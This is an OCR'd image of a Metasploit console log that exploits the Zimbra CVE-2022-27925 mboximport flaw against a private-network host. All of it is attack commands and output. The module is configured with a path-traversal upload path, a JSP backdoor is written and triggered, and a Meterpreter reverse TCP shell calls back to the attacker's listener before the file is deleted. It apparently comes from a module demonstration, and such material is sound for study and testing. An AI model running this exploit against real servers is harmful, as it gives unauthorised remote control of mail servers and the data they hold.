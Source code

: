 ```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.166
RHOSTS => 10.0.0.166
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > show options

Module options (exploit/linux/http/zimbra_mboximport_cve_2022_27925):

   Name             Current Setting                                                                   Required  Description
   ----             ---------------                                                                   --------  -----------
   Proxies                                                                                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           10.0.0.166                                                                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT            7071                                                                              yes       The target port (TCP)
   SSL              true                                                                              no        Negotiate SSL/TLS for outgoing connections
   TARGET_FILENAME                                                                                    no        The filename to write in the target directory; should have a .jsp extension (default: <random>.jsp).
   TARGET_PATH      ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/  yes       The location the payload should extract to (can, and should, contain path traversal characters - "../../").
   TARGET_USERNAME  admin                                                                             yes       The target user, must be valid on the Zimbra server
   VHOST                                                                                              no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.0.146       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Zimbra Collaboration Suite

msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444 
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/nkxj.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/nkxj.jsp
[*] Sending stage (3020772 bytes) to 10.0.0.166
[+] Successfully triggered the payload
[+] Deleted ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/nkxj.jsp
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.166:48640) at 2022-08-22 11:08:19 -0700

```